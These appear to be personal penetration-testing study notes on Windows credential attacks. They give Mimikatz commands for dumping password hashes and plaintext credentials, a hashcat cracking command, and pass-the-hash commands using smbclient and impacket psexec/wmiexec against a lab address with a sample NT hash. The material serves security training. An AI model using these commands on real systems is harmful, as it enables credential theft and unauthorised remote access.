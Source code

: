 use Mimikatz to transfer password hashes
 we can only extract passwords if we are running Mimikatz as Administrator (or higher) and have the SeDebugPrivilege10 access right enabled.
We can also elevate our privileges to the SYSTEM account with tools like PsExec11 or the built-in Mimikatz token elevation function12 to obtain the required privileges.

check which users on windows system with `Get-LocalUser`

mimikatz commands look like module::command

`sekurlsa::logonpasswords` gets all plaaintext passwords and hashes (huge output)
`lsadump::sam` gets all NLTM hashes

need both debug access and token elevation to run the above commands

```
privilege::debug
token::elevate

lsadump::sam
```
LTM hash with hashcat
```
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Pass-the-hash

some services allow username + password hash, but we have to use the right tools

for SMB we can use smbclient

```
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

>get secrets.txt
```

we can use impacket psexec.py and wmiexec.py for executiom

psexec.py fo reverse shell
format for the -hashes arg is LMHash:NTHash
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

Due to the nature of psexec.py, we'll always receive a shell as SYSTEM instead of the user we used to authenticate.o

use impacket-wmiexec to exec shell as user you auth'd with
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

### Net-NTLMv2
need to use this when we don't have admin access
key idea: ask target to auth with us thhen print the hash they used
